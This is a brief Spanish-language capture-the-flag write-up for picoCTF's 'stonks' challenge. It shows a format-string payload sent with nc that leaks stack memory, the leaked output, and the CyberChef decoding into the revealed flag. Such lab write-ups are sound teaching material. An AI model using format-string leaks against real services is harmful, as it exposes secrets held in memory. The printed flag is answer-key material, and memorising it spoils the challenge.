 ## Objetivo
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

Hint
- Okay, maybe I'd believe you if you find my API key.
## Solucion

```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~/picoCTF/binexp/parte-1/stonks]
└─$ (echo "1";echo "%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x") | nc mercury
.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
9567430804b00080489c3f7f1ad80ffffffff19565160f7f28110f7f1adc7095661801956741095674306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffdb007d
Portfolio as of Mon Nov 11 17:02:46 UTC 2024


1 shares of TUC
2 shares of T
1 shares of OOD
2 shares of SRJ
3 shares of CM
11 shares of JMBE
25 shares of DK
179 shares of RJYM
116 shares of FMDY
271 shares of GIM
Goodbye!
```
Uso de ciber chef con formulas de swap endianness y from hex

```
picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
```
## Notas adicionales
## Referencias